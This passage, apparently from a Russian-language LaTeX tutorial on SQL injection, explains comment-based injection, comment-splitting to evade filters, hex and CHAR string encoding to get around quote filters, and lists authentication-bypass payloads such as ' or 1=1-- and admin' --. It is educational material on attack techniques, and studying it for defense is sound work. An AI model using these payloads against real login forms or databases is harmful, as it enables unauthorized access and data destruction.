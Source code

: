 \begin{itemize}
    \item \textbf{Атаки комментированием}\\
    Использование однострочных комментариев позволяет игнорировать часть запроса, идущую после вашей инъекции. Например, ввод в уязвимое поле Username запроса admin'-- позволит зайти на ресурс под администратором, потому что поверка пароля будет закомментирована.\\
    \begin{grayquote} 
        SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'
    \end{grayquote}
    
    Многострочные комментарии могут справится с проверкой или определить тип базы данных.
    Например, подобные запросы обойдут примитивный текстовый анализ:\\
    \begin{grayquote} 
        DROP/*some comment*/sampletable\\
        DR/**/OP/*random comment to cheat*/sampletable
    \end{grayquote}
    
    \item \textbf{Манипуляции со строками}\\
    При помощи конкатенации строк можно обходить фильтр кавычек.\\
    \begin{grayquote} 
        SELECT CONCAT(login, password) FROM members
    \end{grayquote}

    Можно представлять строки в шеснадцатиричном виде, с помощью функции HEX() или вводить их посимвольно.
    \begin{grayquote}
        //0x633A5C626F6F742E696E69 == c:\textbackslash boot.ini\\
        SELECT CONCAT('0x','633A5C626F6F742E696E69'))\\
        SELECT CONCAT(CHAR(75),CHAR(76),CHAR(77))
    \end{grayquote}
    
    \item \textbf{Обход аутентификации}\\
    При помощи OR и сравнения констант можно обойти форму аутентификации. Существуют даже словари, содержащие основные запросы для обхода уязвимой формы

    Примеры запросов:\\
    \begin{grayquote} 
        ' or 1=1\\
        ' or 1=1--\\
        ' or 1=1\#\\
        admin' --\\
        admin' or '1'='1
    \end{grayquote}
    

\end{itemize}

